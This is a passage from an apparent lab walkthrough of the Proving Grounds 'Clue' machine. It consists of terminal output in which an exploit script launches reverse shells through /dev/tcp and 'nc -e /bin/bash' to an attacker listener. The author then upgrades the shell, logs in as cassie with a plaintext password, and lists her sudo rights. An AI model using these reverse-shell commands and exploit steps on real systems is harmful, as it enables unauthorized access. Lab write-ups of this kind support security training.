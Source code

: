Try to get a reverse shell. Use one of the open ports.
`└─$ python 47799.py 192.168.190.240 '/bin/bash -i >& /dev/tcp/192.168.45.235/3000 0>&1'`
`Authenticated`
`Content-Type: api/response`
`Content-Length: 14`

`-ERR no reply`
`┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Clue]`
`└─$ python 47799.py 192.168.190.240 'nc 192.168.45.235 3000 -e /bin/bash'`              
`Authenticated`

nc works and we get the shell. Upgrade it.
`└─$ nc -nlvp 3000`                             
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:3000`
`Ncat: Listening on 0.0.0.0:3000`
`Ncat: Connection from 192.168.190.240:45696.`
`python -c 'import pty; pty.spawn("/bin/bash")'`
`freeswitch@clue:/$`

Try to switch to cassie since we have the credentials.
`freeswitch@clue:/$ su cassie`
`su cassie`
`Password: SecondBiteTheApple330`

`cassie@clue:/$` 

Check if cassie can sudo anything without a password
`cassie@clue:/$ sudo -l`
`sudo -l`
`Matching Defaults entries for cassie on clue:`
    `env_reset, mail_badpass,`
    `secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin`

`User cassie may run the following commands on clue:`
    `(ALL) NOPASSWD: /usr/local/bin/cassandra-web`

Let's see what this program can do

`cassie@clue:/$ sudo /usr/local/bin/cassandra-web`
`sudo /usr/local/bin/cassandra-web`
`I, [2024-02-09T16:14:24.594591 #24194]  INFO -- : Establishing control connection`
`W, [2024-02-09T16:14:24.601388 #24194]  WARN -- : Host 127.0.0.1 refused all connections`
`Cassandra::Errors::AuthenticationError: Server requested authentication, but client was not configured to authenticate`

`Usage: cassandra-web [options]`
    `-B, --bind BIND                  ip:port or path for cassandra web to bind on (default: 0.0.0.0:3000)`
    `-H, --hosts HOSTS                coma-separated list of cassandra hosts (default: 127.0.0.1)`
    `-P, --port PORT                  integer port that cassandra is running on (default: 9042)`
    `-L, --log-level LEVEL            log level (default: info)`
    `-u, --username USER              username to use when connecting to cassandra`
    `-p, --password PASS              password to use when connecting to cassandra`
    `-C, --compression NAME           compression algorithm to use (lz4 or snappy)`
        `--server-cert PATH           server ceritificate pathname`
        `--client-cert PATH           client ceritificate pathname`
        `--private-key PATH           path to private key`
        `--passphrase SECRET          passphrase for the private key`
    `-h, --help                       Show help`
